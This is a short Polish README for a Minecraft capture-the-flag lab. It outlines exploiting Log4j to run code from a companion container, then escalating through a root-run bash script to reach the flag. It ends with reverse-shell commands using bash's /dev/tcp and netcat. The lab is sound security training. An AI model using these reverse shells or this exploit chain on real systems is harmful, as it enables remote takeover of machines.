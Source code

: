 # minecraft-ctf

- próbujesz uruchomić sklauncher (jak nie masz javy, to se pobierz i zainstaluj)
- dockera też potrzebujesz (duh)
- odpalasz docer compose
- to ci uruchamia 3 kontenery
- dwa są tak jakby 'twoje', marshaller i httpcode. 'twoje' oznacza, że w topologii realnej są procesami, które ty kontrolujesz i stawiasz na swoim kompie, tutaj są w dockerach, żeby usprawnić całość,
- twoje zadanie jest następujące: zdobyć flagę :DD
- w tym celu:
  1. używasz podatności Log4j, by wykonać kod hostowany na httpcode,
  2. kod hostowany na httpcode musisz przygotować i skompilować (kompilacja się dzieje podczas budowania kontenera),
  3. kod musi ci umożliwić kontrole na serverze
  4. musisz znaleźć skrypt bashowy wykonywany z uprawnieniami roota, który możesz zmodyfikować,
  5. zmodyfikować go tak, by ...
  6. ...
  7. teraz masz dostęp do pliku z flagą,
  8. wyślij screen flagi na upela ;D
  9. udanej zabawy!



Przydatne rzeczy:

Reverse shell:
```sh
# https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

# odpalasz nasluchiwanie tcp na porcie `5000` na swoim kompie
nc -l 5000

# na kompie ofiary na którym możesz uruchomić komendę robisz
# (musisz wejść w basha - czyli wpisz `bash` w terminal)
bash -i >& /dev/tcp/[ip mojego kompa]/5000 0>&1
# albo to (ale mi nie działało)
nc [ip mojego kompa] 5000 –e /bin/bash


# Możesz to przetestować robiąc w jednym terminalu
nc -l 5000
# a w drugim
bash -i >& /dev/tcp/127.0.0.1/5000 0>&1
```


